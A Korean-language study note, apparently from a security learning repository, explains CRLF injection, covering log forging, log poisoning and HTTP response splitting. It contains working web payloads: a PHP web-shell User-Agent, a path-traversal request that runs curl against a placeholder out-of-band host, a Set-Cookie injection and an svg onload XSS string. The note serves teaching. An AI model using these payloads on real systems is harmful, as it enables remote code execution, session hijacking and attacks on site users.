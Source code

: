 # CRLF Injection


## CRLF 란?
- 타자기 시절부터 줄 바꿈(New Line)을 사용하던 방식
- CR + LF가 합쳐진 용어
    - CR(Carriage Return)
        - 현재 라인에서 커서 위치를 줄 올림 없이 가장 앞으로 옮기는 동작
        - ASCII Code: `ASCII 13` 
        - URL Encode: `%0D`
        - Char: `\r`
    - LF(Line Feed)
        - 커서의 위치는 그대로 두고 종이를 한 라인 위로 올리는 동작
        - ASCII Code: `ASCII 10`
        - URL Encode: `%0A`
        - Char: `\n`


## CRLF Injection이란?
- Carrage Return Line Feed Injection의 약자
- 개행 문자를 의미하는 CR과 LF를 이용하여 공격자가 의도한 동작을 수행시키는 공격 기법


### 1) Log Injection
- 사용자 입력이 로그에 포함되는 경우 공격자가 이를 이용해 로그 항목을 위조하거나 악성 내용을 로그에 삽입할 수 있다.


#### [1] Log Forging
- 사용자 입력이 Log에 반영되는 부분이 있다면 CRLF 문자를 이용하여 새로운 Log를 작성할 수 있다.
- 이러한 Log는 침해 사고 분석을 어렵게 할 수 있고, Log의 무결성을 해쳐서 Log의 신뢰도를 떨어뜨리고, Log가 가지는 부인 방지로서의 목적을 상실하게 할 수 있다.  

정상 요청과 로그
```
GET /?query=aaaa
```
```
['A' User][error][input: aaaa] invalid data
```
공격 요청과 로그
```
GET /?query=aaaa]%20invalid%20data%0d%0a['B' User][token]%20re-generate%20token
```
```
['A' User][error][input: aaaa] invalid data
['B' User][token] re-generate token
```


#### [2] Log Poisoning
- Log 데이터를 통제할 수 있고, 서비스 내 LFI, Path Traversal 취약점이 있는 경우 Log 파일의 경로를 유추하여 RCE 등 위험도를 높일 수 있다.  

First Request (Log Poisoning)
```
GET / HTTP/1.1
```
```
User-Agent: aa<?php echo system($_GET['cmd']); ?>bb
```
Second Request (Path Traversal)
- 요청 내 `curl` 명령어가 실행
```
GET /file.php?path=/var/log/apache2/access.log?cmd=curl%20<OAST>/rce HTTP/1.1
```


### 2) HTTP 응답 분할(HTTP Response Splitting)
- *CWE-113*
- 응답(Response)에 줄 바꿈 문자(CR/LF)를 삽입(Injection)해 하나의 HTTP 응답을 분리(Splitting)하여 여러 개의 HTTP 응답을 만들어 내어 캐시 서버(Cache Server)나 프록시 서버(Proxy Server)에 변조된 컨텐츠를 전송하여 조작할 수 있는 기법


#### [1] Add Cookie
- CRLF가 삽입된 구문이 Header에 반영되는 경우 임의로 Cookie를 삽입할 수 있다.
```
GET /redirect?location=ws://%0d%0aSet-Cookie: session=attackersessions;
```
```
HTTP/1.1 200 OK
Location: ws://
Set-Cookie: session=attackersessions;
```


#### [2] XSS
- CRLF가 삽입된 구문이 Header에 반영되는 경우 `\r\n\r\n`과 같이 두 번 개행하여 Response Body 영역에 임의로 HTML 코드를 추가하여 XSS와 동일하게 사용자 브라우저에서 Script를 실행할 수 있다.
```
GET /redirect?location=ws://%0d%0a%0d%0a<svg/onload=alert(45)>
```
```
HTTP/1.1 200 OK
Location: ws://

<svg/onload=alert(45)>
```


# 참고문헌
- [Log Injection](https://www.hahwul.com/cullinan/log-injection/)
- [CRLF Injection](https://www.hahwul.com/cullinan/crlf-injection/)
- [CR-LF INJECTION](https://zzzmilky.tistory.com/entry/%EC%9B%B9%ED%95%B4%ED%82%B9-CR-LF-INJECTION)
